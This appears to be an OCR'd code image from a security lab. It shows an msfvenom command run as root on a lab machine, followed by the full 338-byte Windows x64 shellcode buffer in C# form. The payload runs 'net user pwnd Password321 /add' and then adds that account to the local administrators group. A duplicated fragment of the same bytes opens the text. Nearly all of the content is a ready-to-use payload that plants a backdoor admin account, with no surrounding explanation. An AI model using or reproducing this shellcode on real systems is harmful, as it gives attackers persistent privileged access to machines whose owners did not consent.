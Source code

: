 ```bash
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00

```

```bash
root@ip-10-10-141-173:~# msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 338 bytes
Final size of csharp file: 1748 bytes
byte[] buf = new byte[338] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00};

```
